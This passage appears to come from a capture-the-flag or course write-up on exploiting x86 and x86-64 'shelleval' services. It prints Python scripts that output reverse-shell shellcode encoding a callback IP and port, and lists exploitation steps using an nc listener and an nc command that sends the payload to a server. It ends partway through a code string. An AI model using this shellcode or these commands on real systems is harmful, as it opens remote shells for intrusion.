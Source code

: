 ```
    mov    ebx,esp
    # Push 0 (NULL, terminator for the envp array).
    push   edx
    # Push the pointer to "/bin//sh".
    push   ebx
    # Jump back to the start to restart the process or continue execution.
    jmp    syscall_socket
```

### ``hex2binary_x86.py`` code
* code snippet
```
#!/usr/bin/env python
import sys


# shellcode to exploit x86 shelleval service
# sys.stdout.write("\x68\x8f\xf8\x88\x0d\x5e\x66\x68\xd9\x03\x5f\x6a\x66\x58\x99\x6a\x01\x5b\x52\x53\x6a\x02\x89\xe1\xcd\x80\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\xb0\x66\x56\x66\x57\x66\x6a\x02\x89\xe1\x6a\x10\x51\x53\x89\xe1\xcd\x80\xb0\x0b\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\xeb\xce")

### 143.248.136.13
IPADDR = "\x8f\xf8\x88\x0d"
### Port: 55555
PORT = "\xd9\x03"
```


## Problem 3.b: x86-64 service exploitation
* By referring and analyzing ``shellcode.py`` in [supplied github link](https://github.com/sangkilc/shelleval), shellcode has been created by converting the hex resulting from an assembly that consists of the following functional steps:
    1. Make a socket with arguments of ``SOCK_STREAM`` and ``AF_INET`` using socket syscall, ``0x66`` (or 102 in decimal).
    2. Redirect ``stdout``, ``stdin``, and ``stderr`` to socket's file descriptor using dup2 syscall, ``0x3f`` (or 63 in decimal).
    3. connect to socket with designated ip and port address using sock syscall, ``0x66`` (or 102 in decimal).
    4. execute ``/bin/sh`` using excve syscall, ``0xb`` (or 11 in decimal).
* flag: ``SKCTF{y0u_5p4wn3d_4_x64_sh3ll}``
* steps for explotation:
    1. print retrieved hex with python script command, ``./hex2binary_x86_64.py > payload``
    2. starting listening form local machine, ``nc -lvnp 55555``
    3. send exploit shellcode to server, ``nc 143.248.38.212 30001 < payload``

### ``hex2binary_x86_64.py`` code
* code snippet
```
#!/usr/bin/env python
import sys


### 143.248.136.13
IPADDR = "\x8f\xf8\x88\x0d"
### Port: 55555
PORT = "\xd9\x03"

# shellcode to exploit x86-64 shelleval service
sys.stdout.write( "\x48\x31\xc0\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x4d\x31\xc0\x6a" \
                    "\x02\x5f\x6a\x01\x5e\x6a\x06\x5a\x6a\x29\x58\x0f\x05\x49\x89\xc0" \
                    "\x48\x31\xf6\x4d\x31\xd2\x41\x52\xc6\x04\x24\x02\x66\xc7\x44\x24" \
                    "\x02" + PORT + "\xc7\x44\x24\x04" + IPADDR + "\x48\x89\xe6\x6a\x10" \
```